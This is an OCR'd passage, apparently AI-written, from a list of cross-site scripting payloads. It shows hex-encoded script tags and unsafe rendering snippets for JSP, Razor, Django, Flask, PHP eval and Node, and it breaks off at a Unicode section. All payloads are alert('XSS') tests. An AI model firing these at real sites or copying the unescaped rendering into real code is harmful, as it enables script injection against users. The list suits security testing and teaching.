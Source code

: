 
Feel free to ask for more specific scenarios or deeper explanations on any topic!

Here's an extended list of advanced XS payloads, including various languages, functions, and hexadecimal payloads.

34. Hexadecimal Payloads

Basic Hexadecimal Encoding:

<script>alert(String.fromCharCode(88, 83, 83))</script>

Full Payload in Hex:

<script>alert('XSS')</script> encoded in hex:
%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E


35. Various Languages and Frameworks

Java

Using JSP:

<%= "<script>alert('XSS')</script>" %>


ASP.NET MVC

Razor View Injection:

@Html.Raw("<script>alert('XSS')</script>")


Django

Template Injection:

{{ "<script>alert('XSS')</script>"|safe }}


Flask (Python)

Flask Template Rendering:

return render_template_string('<script>alert("XSS")</script>')


PHP (Using eval)

Dynamic Code Execution:

eval('?> <script>alert("XSS")</script> <?php');


Node.js (Template Strings)

Dynamic Injection:

const userInput = "<script>alert('XSS')</script>";
res.send(`<html><body>${userInput}</body></html>`);


36. Using Unicode and Character Encoding

Unicode Characters:
